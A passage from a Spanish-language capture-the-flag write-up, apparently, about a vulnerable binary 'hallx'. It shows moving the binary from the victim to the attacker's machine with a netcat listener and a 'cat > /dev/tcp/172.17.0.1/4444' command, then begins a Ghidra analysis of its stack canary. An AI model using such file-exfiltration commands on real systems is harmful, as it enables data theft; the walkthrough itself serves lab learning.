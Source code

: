 Ahora podemos ejeuctar el banario como **root**, Pero primero nos pasamos el bianrio a nuestra maquina local de la siguiente manera: En nuesta maquina atacante ejecutamos el siguiente comando:
```bash
nc -nlvp 4444 > hallx
```

Ahora desde la maquina victima ejecutamos el siguiente comando:
```bash
cd ~ ; cat hallx > /dev/tcp/172.17.0.1/4444
```

```bash
chmod +x hallx
```

Si revisamos el tipo de archivo que tenemos ahora en nuestra maquina atacante:
```bash
file hallx
hallx: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=893e31da9cc52e4975333bd5ce87b856ef749f22, for GNU/Linux 3.2.0, not stripped
```

Tenemos un binario ejecutable que ya sabemos que es vulneraable a **bufferoverFlow**
Lazamos **Ghidra** para analizarlo y filtramos por la funcion **main**:
```bash
/* WARNING: Removing unreachable block (ram,0x001037d7) */
/* WARNING: Removing unreachable block (ram,0x00103842) */
/* WARNING: Removing unreachable block (ram,0x00103822) */
/* WARNING: Removing unreachable block (ram,0x0010384a) */

undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  check_virtualization();
  checkDebugger();
  create_log_directory();
  create_file_if_not_exists("/tmp/logs/events.log");
  create_file_if_not_exists("/tmp/logs/registers.log");
  puts("Sistema de Registro Entrada/Salida.");
  factor2();
  putchar(10);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
```

Para resolver este problema usamos la documentacion del usaurio [Shinki](https://shinki-organization.gitbook.io/dw/write-ups/quickstart/maquinas-medio/stackinferno-write-up): 
Lo primero que hace el programa es asignar la variable `lVar1 = *(long *)(in_FS_OFFSET + 0x28)`, esto lo que hace es guardar en una variable el valor de `in_FS_OFFSET + 0x28`, lo cual es una dirección dentro del segmento `FS` donde se guarda el **stack canary**.
